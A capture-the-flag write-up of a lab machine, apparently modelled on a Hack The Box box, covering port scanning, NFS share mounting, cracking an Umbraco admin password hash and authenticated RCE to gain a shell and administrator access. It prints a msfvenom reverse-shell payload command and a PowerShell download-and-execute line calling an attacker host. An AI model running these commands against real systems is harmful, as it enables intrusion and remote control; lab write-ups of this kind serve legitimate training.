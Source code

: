 ```yaml
---
title: ASCWG Final Round Machine Writeup
published: true
---
```


> ![logo](https://www.ascyberwargames.com/wp-content/uploads/2020/01/MainLogo.png)

* Before we start, I will try to explain everything as a player since I'm the creator of this machine. 
# []() Methodology

* Nmap scan
* find some mounted files.
* find username and password of Umbraco cms
* Execute command with Umbraco exploit and got reverse shell.
* got user.
* Privilege Escalation.

# []() Nmap Scan

* I will start with nmap scan to find which services are running on this machine.

> I found some open ports. 22,139,445,8078 **Apache Running on**, 8078.

* The samba was just a rabbit hole.

![nmap](https://i.ibb.co/BtkVqCH/1.png)

# []() Enumerating the machine

* Adding ascwg.com to the /etc/hosts since its the name of the machine.

![hosts](https://i.ibb.co/TWGWPfw/2.png)

# []() Checking the Web-Page

* the web page was very simple and contain some useful data like usernames.

![](https://i.ibb.co/tZtRStB/webpage1.png)

* and here's some usernames.

![](https://i.ibb.co/VYL2nQH/wbpage2.png)

* as always i tried to bruteforce the username and password for the smb but i failed so let's enumerate some.

* when i ran gobuster i found an dir for umbraco cms.

> **gobuster dir -u http://10.10.10.180/ -w /usr/share/dirb/wordlists/common.txt -s 200**

![gobuster](https://i.ibb.co/db7f3xZ/gobuster.png)

* and here is the cms login page.

![cms](https://i.ibb.co/ZmTHzBg/cms.png)

* this cms vulnerable to auth RCE so we need some credentials.

> after enumerated some mounted files from the machine i found the user and the password.

| Command1        | Command2          | Command3 |
|:-------------|:------------------|:------|
| /usr/sbin/showmount -e 10.10.10.180           | mkdir mounted_files | sudo mount 10.10.10.180://site_backups ./mounted_files  |

![](https://i.ibb.co/wyKCwdn/mount.png)

> **in the Web.config file, i noticed the connection date will be stored in the Umbraco.sdf.**

![](https://i.ibb.co/w4W9x6c/subl.png)

* let's see what is in Umbraco.sdf. this file in App_Data dir.

![](https://i.ibb.co/m8v96XX/admin.png)


| Username        | Email          | Password |
|:-------------|:------------------|:------|
| admin          | admin@htb.local | b8be16afba8c314ad33d812f22a04991b90e2aaa  |

* the password encrypted with SHA1. let's decrypt it.

![](https://i.ibb.co/ZW3fNL2/password.png)

* Password: **baconandcheese**

* let's login to the cms panel.

![](https://i.ibb.co/wpVjHSv/cmspage.png)

* now we can use this [Umbraco-RCE Exploit](https://github.com/noraj/Umbraco-RCE.git) to get reverse shell.

* let's test the exploit.

* first we need a reverse shell to upload it to the machine to give us reverse shell.

> **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=HOST LPORT=PORT -f psh -o reverse-shell.ps1**

* now let's upload our reverse shell to the machine with the exploit.

> **./umbraco_cve.py -u admin@htb.local -p baconandcheese -i 'http://remote.htb' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.xx.xx:80/reverse.ps1')"**

![reverse-shell](https://i.ibb.co/BTq01sQ/reverse-shell.png)

* and we got user flag.

* after some enumeration i found that TeamViewer was installed in this box. so run this command in the meterpreter session.

* here's the administrator password.

![](https://i.ibb.co/JKYhsvG/root.png)

* there is another way to get root with UsoSvc service and you can read about it from here. [hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

* let's login as administrator now with evil-winrm.

![](https://i.ibb.co/yqz7qKC/final.png)

* Thanks for reading.
* Cheers!

<script src="https://www.hackthebox.eu/badge/103789"></script>








